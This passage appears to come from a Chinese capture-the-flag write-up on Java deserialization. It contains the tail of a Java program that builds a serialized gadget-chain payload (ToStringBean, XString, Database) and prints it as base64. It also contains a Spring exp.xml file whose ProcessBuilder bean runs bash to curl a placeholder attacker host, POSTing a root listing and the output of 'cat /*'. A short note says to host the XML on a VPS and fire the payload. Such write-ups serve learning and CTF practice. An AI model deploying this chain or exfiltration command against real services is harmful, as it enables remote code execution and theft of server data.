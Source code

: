 ```java
        map1.put("zZ",xString);
        map2.put("yy",xString);
        map2.put("zZ",toStringBean);

        Map map = new HashMap();
        map.put(map1, 1);
        map.put(map2, 2);

        Reflection.setFieldValue(toStringBean, "beanClass", Database.class);
        Reflection.setFieldValue(toStringBean, "obj", database);

        ByteArrayOutputStream arr = new ByteArrayOutputStream();
        try (ObjectOutputStream output = new ObjectOutputStream(arr)){
            output.writeUTF("axb");
            output.writeInt(2022);
            output.writeObject(map);
        }

        System.out.println(Base64.getEncoder().encodeToString(arr.toByteArray()));

    }
}
```

exp.xml

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:p="http://www.springframework.org/schema/p"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">
<!--    普通方式创建类-->
   <bean id="exec" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value>curl http://x.x.x.x:yyyy/ -X POST -d "`ls /;cat /*`"</value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

vps 上挂着 exp.xml, 然后用 base64 payload 打一下

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211272107558.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211272108046.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211272114396.png)